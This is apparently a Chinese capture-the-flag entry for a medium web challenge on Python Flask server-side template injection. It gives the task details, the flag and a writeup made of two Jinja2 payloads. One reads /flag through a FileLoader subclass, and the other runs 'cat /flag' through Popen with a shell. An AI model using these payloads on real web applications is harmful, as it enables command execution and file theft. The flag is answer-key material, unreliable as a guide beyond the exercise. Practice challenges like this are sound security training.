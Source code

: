 - **题目名称：** 你买车票没
- **题目类型：** WEB
- **题目难度：** 中等
- **出题人：** gbljdgb
- **考点：**

1. python flask ssti模板注入

- **描述：** 星穹列车要出发了,没买票的开拓者不能上车!
- **flag：** XSCTF{SsT1_MilKTea_m1LktEa!}
- **Writeup：** 

payload如下

```
?name={% for c in [].__class__.__base__.__subclasses__() %}
{% if 'FileLoader' in c.__name__ %}
{{ c["get_data"](0, "/flag") }}
{% endif %}
{% endfor %}&password=1

?name={% for c in [].__class__.__base__.__subclasses__() %}
{% if 'Popen' in c.__name__ %}
{{ c('cat /flag',shell=True,stdout=-1).communicate()[0].strip() }}
{% endif %}
{% endfor %}
```

